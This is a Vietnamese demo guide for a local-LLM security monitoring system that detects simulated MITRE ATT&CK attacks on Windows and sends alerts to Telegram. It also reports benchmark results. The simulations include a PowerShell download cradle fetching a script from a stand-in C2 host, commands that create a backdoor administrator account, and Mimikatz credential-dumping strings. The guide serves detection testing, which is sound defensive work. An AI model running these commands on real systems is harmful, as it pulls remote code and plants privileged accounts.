

# 🎯 HƯỚNG DẪN KỊCH BẢN DEMO THỰC CHIẾN HỆ THỐNG AI SOC

> Gộp từ bản update 14/11/2026. Đường dẫn đã chỉnh theo cấu trúc hiện tại: các file `.bat` nằm trong `bat\`, kịch bản demo nằm trong `demos\`, benchmark xuất ra `results\benchmark600\`. Repo hiện không có `run_n8n.bat`: dùng `docker compose up -d` hoặc `bat\import_n8n_image.bat`.

> **Dự án:** Giám sát, phát hiện và phản ứng sự cố An toàn thông tin Endpoint theo thời gian thực kết hợp Local SLM (Ollama Qwen2.5) và Tự động hóa n8n.  
> **Phiên bản:** 2.0 (Hỗ trợ 6+ Kịch bản MITRE ATT&CK chuẩn hóa & Chống báo động giả)

---

## 📌 MỤC LỤC
1. [Sơ đồ Luồng Hoạt động Tổng quan (Architecture Flow)](#1-sơ-đồ-luồng-hoạt-động-tổng-quan)
2. [Checklist Chuẩn bị Trước khi Demo (1 Phút)](#2-checklist-chuẩn-bị-trước-khi-demo)
3. [Bố cục Cửa sổ Màn hình Trình diễn (Screen Layout)](#3-bố-cục-cửa-sổ-màn-hình-trình-diễn)
4. [Chi tiết 6+ Kịch bản Demo Thực chiến](#4-chi-tiết-6-kịch-bản-demo-thực-chiến)
   - [Demo 0: Hoạt động Văn phòng Lành tính (Benign Normal Benchmark)](#demo-0-hoạt-động-văn-phòng-lành-tính)
   - [Demo 1: Dò quét Mật khẩu Brute-Force (T1110)](#demo-1-dò-quét-mật-khẩu-brute-force)
   - [Demo 2: PowerShell C2 Download Cradle (T1059.001)](#demo-2-powershell-c2-download-cradle)
   - [Demo 3: Trích xuất Mật khẩu Bộ nhớ Mimikatz (T1003)](#demo-3-trích-xuất-mật-khẩu-bộ-nhớ-mimikatz)
   - [Demo 4: Tạo Backdoor User & Leo thang Admin (T1136 / T1098)](#demo-4-tạo-backdoor-user--leo-thang-admin)
   - [Demo 5: Duy trì Xâm nhập Registry Run Key (T1547.001)](#demo-5-duy-trì-xâm-nhập-registry-run-key)
   - [Demo 6: Chuỗi Tấn công Tổng hợp APT (Full Cyber Kill Chain)](#demo-6-chuỗi-tấn-công-tổng-hợp-apt-full-kill-chain)
5. [Kịch bản Thuyết trình Mẫu (Talking Points cho Báo cáo)](#5-kịch-bản-thuyết-trình-mẫu)
6. [Xử lý Sự cố Nhanh (Troubleshooting)](#6-xử-lý-sự-cố-nhanh)

---

## 1. SƠ ĐỒ LUỒNG HOẠT ĐỘNG TỔNG QUAN



---

## 2. CHECKLIST CHUẨN BỊ TRƯỚC KHI DEMO

Thực hiện kiểm tra nhanh theo thứ tự 4 bước trước khi bắt đầu trình chiếu:

### Bước 1: Khởi động Ollama & Model AI
Mở CMD hoặc PowerShell và kiểm tra:
```cmd
ollama list
```
Đảm bảo đã có model `qwen2.5:3b-instruct-q4_K_M`. Nếu chưa chạy, bật Ollama bằng lệnh:
```cmd
ollama serve
```

### Bước 2: Khởi động Docker n8n (Orchestration)
Tại thư mục `winlog-agent`, click đúp:
* 👉 **`run_n8n.bat`** (hoặc gõ `docker compose up -d`)
* Truy cập `http://localhost:5678` (hoặc `5679`), đảm bảo Workflow **"My workflow 2"** đang ở trạng thái **Published** (màu xanh lá).

### Bước 3: Khởi động AI Server (Port 8443 HTTPS)
Tại thư mục `winlog-agent`, click đúp:
* 👉 **`bat\run_server_https.bat`**
* Đợi hiển thị dòng: `Application startup complete. Uvicorn running on https://0.0.0.0:8443`.

### Bước 4: Khởi động Client Agent trên máy trạm
Tại máy trạm hoặc máy cần giám sát, click đúp:
* 👉 **`bat\run_client.bat`** *(chọn Yes khi Windows hỏi quyền Administrator)*.
* Cửa sổ hiển thị:
  * `Quyen Admin : CO (Doc day du Security + PowerShell Log)`
  * `Ket noi AI Server THANH CONG!`
  * `Dang giam sat Event Log...`

---

## 3. BỐ CỤC CỬA SỔ MÀN HÌNH TRÌNH DIỄN

Để người xem hoặc hội đồng đánh giá nhìn thấy toàn bộ sức mạnh phối hợp thời gian thực, hãy chia màn hình làm 4 phần:

```text
┌──────────────────────────────┬──────────────────────────────┐
│  [Góc trên trái]             │  [Góc trên phải]             │
│  🖥️ Client Agent (run_client)│  🧠 AI Server (run_server)   │
│  Hiển thị sự kiện bắt được   │  Hiển thị tiến trình AI phân │
│  và gửi lên Server theo chu  │  tích và kết luận ALERT /    │
│  kỳ 5 giây.                  │  NORMAL.                     │
├──────────────────────────────┼──────────────────────────────┤
│  [Góc dưới trái]             │  [Góc dưới phải]             │
│  💥 Bộ Demo Tấn công         │  📱 Telegram Web / App       │
│  (simulate_attack.bat hoặc   │  Kênh tiếp nhận tin nhắn     │
│   demo1...demo6.bat)         │  cảnh báo màu đỏ từ bot tự   │
│                              │  động gửi về trong 5-7 giây. │
└──────────────────────────────┴──────────────────────────────┘
```

---

## 4. CHI TIẾT 6+ KỊCH BẢN DEMO THỰC CHIẾN

Bạn có thể chạy bằng 2 cách:
* **Cách 1 (Khuyên dùng):** Click đúp trực tiếp vào file `.bat` của từng bài test riêng lẻ (`demo0` đến `demo6`).
* **Cách 2:** Click đúp vào `simulate_attack.bat` để mở Menu chọn số `0` đến `6`.

---

### DEMO 0: Hoạt động Văn phòng Lành tính
> **Mục tiêu:** Chứng minh hệ thống AI thông minh, **KHÔNG BÁO ĐỘNG GIẢ (Zero False Positives)** khi nhân viên làm việc bình thường.

* **File thực thi:** Chọn [0] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo0_normal_benign.bat`**
* **Hành vi sinh ra:** Các lệnh quản trị thông thường (`dir`, `ipconfig /all`, `Get-Process`).
* **Diễn biến quan sát:**
  1. **Client Agent:** Bắt được 2-3 sự kiện thông thường $\rightarrow$ Gửi lên Server.
  2. **AI Server:** Chạy phân tích trong ~1.5 giây $\rightarrow$ Kết luận: `Ket qua AI: NORMAL`.
  3. **n8n Workflow:** Nhánh IF rẽ sang `False` (bỏ qua, không gửi Telegram).
  4. **Telegram:** **Hoàn toàn yên lặng**, chứng minh hệ thống không làm phiền đội SOC khi không có mối đe dọa.

---

### DEMO 1: Dò quét Mật khẩu Brute-Force
> **Kỹ thuật:** MITRE ATT&CK **T1110** (Credential Access)

* **File thực thi:** Chọn [1] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo1_bruteforce.bat`**
* **Hành vi sinh ra:** Phát dồn dập 8 lần đăng nhập sai mật khẩu liên tiếp vào tài khoản mục tiêu `victim_boss` (kết hợp Process API & SMB NTLM).
* **Sự kiện Windows:** 8 x **Event 4625** (Logon Failure).
* **Diễn biến quan sát:**
  1. **Client Agent:** Báo màu vàng: `Phat hien 8 su kien moi! Security Log: Event 4625: 8 lan`.
  2. **AI Server:** Nhận diện chuỗi đăng nhập thất bại dồn dập $\rightarrow$ `Ket qua AI: ALERT`.
  3. **Telegram:** Bắn cảnh báo đỏ:
     * ⚠️ **Đánh giá:** `ALERT`
     * 🎯 **Kỹ thuật:** `Password Brute Force (MITRE T1110)`
     * 📝 **Chi tiết:** Phát hiện 8 lần đăng nhập thất bại nhắm vào tài khoản `victim_boss`.

---

### DEMO 2: PowerShell C2 Download Cradle
> **Kỹ thuật:** MITRE ATT&CK **T1059.001** (Command and Scripting Interpreter)

* **File thực thi:** Chọn [2] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo2_powershell_c2.bat`**
* **Hành vi sinh ra:** Thực thi lệnh PowerShell dạng Download Cradle không lưu file để tải payload độc từ máy chủ C2 từ xa: `IEX (New-Object Net.WebClient).DownloadString('http://c2-malicious.xyz:8080/beacon.ps1')`.
* **Sự kiện Windows:** **Event 4104** (ScriptBlock Logging).
* **Diễn biến quan sát:**
  1. **Client Agent:** `PowerShell Log: 1 su kien (ScriptBlock 4104)`.
  2. **AI Server:** Phát hiện mẫu ScriptBlock chứa `DownloadString` và `IEX` $\rightarrow$ `Ket qua AI: ALERT`.
  3. **Telegram:**
     * ⚠️ **Đánh giá:** `ALERT`
     * 🎯 **Kỹ thuật:** `PowerShell / Command and Scripting Interpreter (MITRE T1059.001)`
     * 📝 **Chi tiết:** Lệnh PowerShell chứa Download Cradle để tải và thực thi mã độc từ xa vào bộ nhớ.

---

### DEMO 3: Trích xuất Mật khẩu Bộ nhớ Mimikatz
> **Kỹ thuật:** MITRE ATT&CK **T1003** (OS Credential Dumping)

* **File thực thi:** Chọn [3] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo3_mimikatz.bat`**
* **Hành vi sinh ra:** Thực thi script chứa chữ ký trích xuất mật khẩu, vé xác thực Kerberos và NTLM hash từ tiến trình bộ nhớ LSASS (`Invoke-Mimikatz`, `sekurlsa::logonpasswords`, `lsass minidump`).
* **Sự kiện Windows:** **Event 4104** & **Event 4688**.
* **Diễn biến quan sát:**
  1. **Client Agent:** Bắt được ScriptBlock chứa kỹ thuật trích xuất bộ nhớ.
  2. **AI Server:** Correlation Engine kích hoạt bộ luật Credential Dumping (Risk Score = 100) $\rightarrow$ `Ket qua AI: ALERT`.
  3. **Telegram:**
     * ⚠️ **Đánh giá:** `ALERT`
     * 🎯 **Kỹ thuật:** `OS Credential Dumping (MITRE T1003)`
     * 📝 **Chi tiết:** Phát hiện hành vi trích xuất thông tin xác thực bộ nhớ LSASS bằng Mimikatz/Sekurlsa.

---

### DEMO 4: Tạo Backdoor User & Leo thang Admin
> **Kỹ thuật:** MITRE ATT&CK **T1136** (Create Account) & **T1098** (Account Manipulation)

* **File thực thi:** Chọn [4] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo4_backdoor_admin.bat`**
* **Hành vi sinh ra:**
  1. Tạo tài khoản người dùng bí mật: `net user soc_backdoor_admin P@ssw0rd999! /add`
  2. Gán đặc quyền tối cao: `net localgroup Administrators soc_backdoor_admin /add`
* **Sự kiện Windows:** 2 x **Event 4688** (Process Creation có đầy đủ CommandLine).
* **Diễn biến quan sát:**
  1. **Client Agent:** Bắt được 2 sự kiện Event 4688.
  2. **AI Server:** Nhận diện hành vi tạo tài khoản cục bộ bất thường kèm leo thang vào nhóm Quản trị viên $\rightarrow$ `Ket qua AI: ALERT`.
  3. **Telegram:** Bắn cảnh báo kỹ thuật `Backdoor Creation / Privilege Escalation (MITRE T1136 / T1098)`.
  4. **Tự động dọn dẹp:** Sau khi Client gửi log xong (sau 8s), script tự động xóa user test để đảm bảo an toàn cho máy tính.

---

### DEMO 5: Duy trì Xâm nhập Registry Run Key
> **Kỹ thuật:** MITRE ATT&CK **T1547.001** (Persistence via Registry Run Keys)

* **File thực thi:** Chọn [5] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo5_registry_persistence.bat`**
* **Hành vi sinh ra:** Ghi khóa tự khởi động cùng hệ điều hành tại `HKCU:\Software\Microsoft\Windows\CurrentVersion\Run` trỏ đến file thực thi độc hại.
* **Sự kiện Windows:** **Event 4104** (ScriptBlock ghi Registry).
* **Diễn biến quan sát:**
  1. **Client Agent:** Bắt được sự kiện can thiệp Registry Persistence.
  2. **AI Server:** Phát hiện hành vi duy trì mã độc khởi động cùng Windows $\rightarrow$ `Ket qua AI: ALERT`.
  3. **Telegram:** Báo cảnh báo `Persistence (MITRE T1547.001)`.

---

### DEMO 6: Chuỗi Tấn công Tổng hợp APT (Full Kill Chain)
> **Kỹ thuật:** Kết hợp toàn diện cả 5 giai đoạn tấn công có chủ đích (Cyber Kill Chain).  
> **Khuyên dùng:** Đây là kịch bản **ấn tượng nhất** khi báo cáo hoặc nghiệm thu dự án!

* **File thực thi:** Chọn [6] trong **`bat\run_demo.bat`** hoặc click đúp **`demos\demo6_full_killchain.bat`**
* **Diễn tiến chuỗi tấn công tự động (được bắn liên hoàn trong 5 giây):**
  1. `[Giai đoạn 1]` Hacker dò mật khẩu Brute-force 8 lần vào `victim_boss` (T1110 - Event 4625).
  2. `[Giai đoạn 2]` Hacker trinh sát quyền hạn hệ thống bằng `whoami /all`, `systeminfo` (T1033 - Event 4688).
  3. `[Giai đoạn 3]` Hacker tải mã độc C2 qua lệnh PowerShell ẩn (T1059.001 - Event 4104).
  4. `[Giai đoạn 4]` Hacker chạy Mimikatz để đọc trộm mật khẩu bộ nhớ (T1003 - Event 4104).
  5. `[Giai đoạn 5]` Hacker tạo user backdoor và gán quyền Administrator (T1136/T1098 - Event 4688).
* **Diễn biến quan sát:**
  1. **Client Agent:** Nhảy thông báo gom trọn vẹn 12-15 sự kiện của cả Security lẫn PowerShell.
  2. **AI Server:** Mô hình SLM (Qwen) phối hợp với Correlation Engine phân tích chuỗi đa hành vi (Multi-Stage Attack) trong ~5 giây.
  3. **Telegram:** Bắn **ĐẠI CẢNH BÁO TẤN CÔNG NÂNG CAO (APT ATTACK)**:
     * 🎯 **Kỹ thuật:** Liệt kê đầy đủ cả 5 mã MITRE: `T1110`, `T1033`, `T1059.001`, `T1003`, `T1136`.
     * 📝 **Chi tiết:** Phân tích logic xâu chuỗi: *Hacker dò mật khẩu thành công $\rightarrow$ Thực hiện khám phá hệ thống $\rightarrow$ Tải mã độc C2 $\rightarrow$ Tạo tài khoản ẩn duy trì quyền lực.*

---

## 5. KỊCH BẢN THUYẾT TRÌNH MẪU

Khi đứng thuyết trình trước hội đồng hoặc khách hàng, bạn có thể trình bày theo mẫu kịch bản chuẩn sau:

> *"Kính thưa Thầy Cô / Quý Khách hàng,*  
> *Hôm nay em xin trình diễn hệ thống giám sát an toàn thông tin thế hệ mới ứng dụng Trí tuệ nhân tạo cục bộ (Local Small Language Model). Hệ thống gồm 3 thành phần chính đang hiển thị trên màn hình:*  
> * *Bên trái là Client Agent đang giám sát Event Log Windows theo thời gian thực.*  
> * *Bên phải là AI Server chạy mô hình Qwen 3B hoàn toàn offline, bảo mật tuyệt đối dữ liệu.*  
> * *Phía dưới là hệ thống tự động hóa n8n tích hợp cảnh báo Telegram tức thì.*  
>  
> *Đầu tiên, em sẽ chạy **Demo 0: Hoạt động bình thường**. Như quý vị thấy, khi nhân viên mở thư mục, chạy lệnh mạng, AI Server phân tích và xác nhận nhãn **NORMAL**, hệ thống hoàn toàn yên lặng để không gây quá tải cho trực ban SOC.*  
>  
> *Tiếp theo, em kích hoạt **Demo 1: Tấn công Dò mật khẩu Brute-force**. Chỉ trong vòng 5 giây, Agent đã bắt được 8 sự kiện 4625, đẩy qua Server. AI phân tích tương quan và Telegram lập tức báo động đỏ với bằng chứng cụ thể.*  
>  
> *Cuối cùng, em xin diễn tập kịch bản phức tạp nhất: **Demo 6 - Chuỗi tấn công APT toàn diện (Full Kill Chain)** từ dò mật khẩu, tải mã độc C2, trích xuất Mimikatz đến tạo Backdoor Administrator. Hệ thống đã tự động liên kết các sự kiện rời rạc thành một bức tranh điều tra sự cố hoàn chỉnh và đưa ra khuyến nghị xử lý ngay lập tức trên điện thoại!"*

---

## 6. XỬ LÝ SỰ CỐ NHANH

| Hiện tượng | Nguyên nhân | Cách khắc phục trong 10 giây |
| :--- | :--- | :--- |
| **Báo lỗi `The argument ... simulate_attack.ps1 does not exist`** | Chưa copy file `simulate_attack.ps1` vào cùng thư mục với file `.bat`. | Copy file `simulate_attack.ps1` vào cùng thư mục với file demo `.bat`. |
| **Client báo `Security: 0` khi chạy Brute-force hoặc Backdoor** | Client Agent chạy bằng quyền user thường nên Windows chặn đọc Security Log. | Tắt cửa sổ client đi, click đúp lại vào `run_client.bat` và chọn **Yes** để cấp quyền Administrator. |
| **Client báo `KHONG THE KET NOI TOI AI SERVER`** | Server chưa bật hoặc sai IP trong `client_agent.ps1`. | 1. Đảm bảo cửa sổ `run_server_https.bat` đang chạy.<br/>2. Kiểm tra IP máy Server và cập nhật lại trong `client_agent.ps1` nếu đổi mạng WiFi. |
| **Server báo lỗi không thể kết nối tới n8n** | Container n8n chưa chạy hoặc Workflow chưa bật. | 1. Chạy lệnh `docker compose up -d` để bật container.<br/>2. Mở `http://localhost:5678`, bấm nút kích hoạt Workflow sang màu xanh lá (**Published**). |
| **Không nhận được tin nhắn Telegram** | Node Telegram trong n8n chưa cấu hình Bot Token / Chat ID. | Mở Workflow trên n8n, kiểm tra credential Telegram và Chat ID cá nhân của bạn. |


---

## 7. ĐÁNH GIÁ BENCHMARK MÔ HÌNH (QWEN VS LLAMA VS DEEPBLUECLI VS SIGMA RULES)

Khi Giảng viên hoặc Hội đồng yêu cầu trình diễn bài kiểm thử định lượng và đối chiếu mô hình:

### 7.1. Chạy đánh giá theo kịch bản chuẩn hóa (200 ca mỗi bài test - Tổng 600 ca)
Chỉ cần nhấp đúp vào:
```cmd
bat\run_scenarios.bat
```
- Chọn phím `1`: Chạy toàn diện 600 ca trên cả 3 bài test [Qwen, Llama, DeepBlueCLI, Sigma].
- Chọn phím `2`: Chạy Bài 1 - Từng sự kiện đơn lẻ & Chữ ký tĩnh (200 ca: 50 Attack, 150 Normal).
- Chọn phím `3`: Chạy Bài 2 - Chuỗi sự kiện đa bước & Tương quan hành vi (200 ca: 50 Attack, 150 Normal).
- Chọn phím `4`: Chạy Bài 3 - Chống nhận diện nhầm do người dùng vô ý / Hard Negatives (200 ca: 50 Attack, 150 Normal).
- Chọn phím `5`: Chạy siêu tốc 2 công cụ Rule-based (DeepBlueCLI và Sigma) trên toàn bộ 600 ca (~3 giây).
- Chọn phím `6`: Chạy suy luận trực tiếp live qua Ollama trên toàn bộ 600 ca (~25-30 phút).

### 7.2. Tóm tắt kết quả Benchmark trọng tâm để trả lời Thầy Cô:
1. **Quy mô và tỷ lệ thực tế**: Bộ dữ liệu gồm chuẩn **600 ca kiểm thử (200 ca cho mỗi bài test)**, trong đó **450 ca lành tính (75.0%)** và **150 ca tấn công (25.0%)**, phân bổ khách quan trên 3 kịch bản thực tế.
2. **Khử trùng lặp**: Pipeline áp dụng cơ chế Initial Watermark (`(Get-Date).AddSeconds(-2)`) và Post-Analysis XML Wipe nên tuyệt đối không gửi trùng lặp cảnh báo.
3. **So sánh với công cụ không dùng AI (DeepBlueCLI & Sigma Rules)**:
   - DeepBlueCLI và Sigma Rules xử lý cực nhanh (~0.002s - 0.029s suy luận) nhưng **Recall chỉ đạt 15.3% (bỏ sót 127/150 ca tấn công tinh vi Living-off-the-Land)** vì chỉ dựa vào chuỗi tĩnh.
   - Mô hình SLM **Qwen 2.5 3B đạt Accuracy 99.2%, Recall 96.7% (145/150 ca), Precision tuyệt đối 100.0% (0 False Positive trên 450 ca lành tính)**, F1-Score đạt **0.983**.
   - Llama 3.2 3B đạt Recall 94.7% nhưng bị báo động giả cao (Precision 47.0%, FP = 160 ca) do quá nhạy cảm với các công cụ quản trị hệ thống.
4. **Độ trễ toàn trình (End-to-End)**: Đo lường từ lúc sinh sự kiện tới lúc nhận tin nhắn Telegram:
   - Rule Tools (DeepBlue / Sigma): `~3.68 - 3.71 giây`
   - Llama 3.2 3B: `~8.49 giây`
   - Qwen 2.5 3B: `~8.64 giây` (hoàn toàn đáp ứng thời gian thực cho SOC).
*(Xem báo cáo chi tiết tại `results\BAO_CAO_DANH_GIA_CHI_TIET_TUNG_KICH_BAN.md` và `results\COMPARISON_REPORT.md`)*.
